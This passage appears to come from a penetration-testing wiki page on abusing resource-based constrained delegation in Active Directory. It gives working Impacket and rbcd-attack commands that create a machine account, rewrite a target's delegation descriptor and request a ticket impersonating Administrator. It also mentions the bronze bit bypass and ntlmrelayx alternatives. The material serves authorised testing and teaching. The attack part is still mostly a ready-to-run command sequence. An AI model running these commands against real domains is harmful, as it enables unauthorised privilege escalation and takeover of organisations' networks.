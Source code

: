 ```bash
addcomputer.py -computer-name 'SHUTDOWN$' -computer-pass 'SomePassword' -dc-host $DomainController -domain-netbios $DOMAIN 'DOMAIN\anonymous:anonymous'
```

{% hint style="warning" %}
In some mysterious cases, using [addcomputer.py](https://github.com/SecureAuthCorp/impacket/blob/master/examples/addcomputer.py) to create a computer account resulted in the creation of a **disabled** computer account. Testers can use ntlmrelayx instead with the`--add-computer` option, like [this](https://arkanoidctf.medium.com/hackthebox-writeup-forest-4db0de793f96)
{% endhint %}

The [rbcd-attack](https://github.com/tothi/rbcd-attack) script \(Python\) can be used to modify the delegation rights \(populate the target's `msDS-AllowedToActOnBehalfOfOtherIdentity` security descriptor\), using the credentials of a domain user. The [rbcd permissions](https://github.com/NinjaStyle82/rbcd_permissions) script \(Python\) is an alternative to rbcd-attack that can also do [pass-the-hash](../abusing-lm-and-ntlm/pass-the-hash.md), [pass-the-ticket](pass-the-ticket.md), and operate cleanup of the security descriptor.

```bash
rbcd-attack -f 'SHUTDOWN' -t $Target -dc-ip $DomainController 'DOMAIN\anonymous:anonymous'

# Attack (example with user/password)
rbcd-permissions -c 'CN=SHUTDOWN,OU=Computers,DC=DOMAIN,DC=LOCAL' -t 'CN=TARGET,OU=Computers,DC=DOMAIN,DC=LOCAL' -d $DOMAIN_FQDN -u $USER -p $PASSWORD -l $LDAPSERVER

# Cleanup
rbcd-permissions --cleanup -c 'CN=SHUTDOWN,OU=Computers,DC=DOMAIN,DC=LOCAL' -t 'CN=TARGET,OU=Computers,DC=DOMAIN,DC=LOCAL' -d $DOMAIN_FQDN -u $USER -p $PASSWORD -l $LDAPSERVER
```

{% hint style="success" %}
Testers can use ntlmrelayx to set the delegation rights with the `--delegate-access` option \(see [NTLM relay](../abusing-lm-and-ntlm/ntlm-relay.md)\) instead of using [rbcd-attack](https://github.com/tothi/rbcd-attack) or [rbcd-permissions](https://github.com/NinjaStyle82/rbcd_permissions)
{% endhint %}

Once the security descriptor has been modified, the [Impacket](https://github.com/SecureAuthCorp/impacket) script [getST](https://github.com/SecureAuthCorp/impacket/blob/master/examples/getST.py) \(Python\) can then perform all the necessary steps to obtain the final "impersonating" TGS \(in this case, "Administrator" is impersonated but it can be any user in the environment\).

```bash
getST.py -spn $target_SPN -impersonate Administrator -dc-ip $DomainController 'DOMAIN/SHUTDOWN$:SomePassword'
```

The SPN \(ServicePrincipalName\) set will have an impact on what services will be reachable. For instance, `cifs/target.domain` or `host/target.domain` will allow most remote dumping operations \(more info on [adsecurity.org](https://adsecurity.org/?page_id=183)\).

{% hint style="warning" %}
In [some cases](kerberos-delegations.md#theory), the delegation will not work. Depending on the context, the [bronze bit ](forged-tickets.md#bronze-bit-cve-2020-17049)vulnerability \(CVE-2020-17049\) can be used with the `-force-forwardable` option to try to bypass restrictions.
{% endhint %}
{% endtab %}
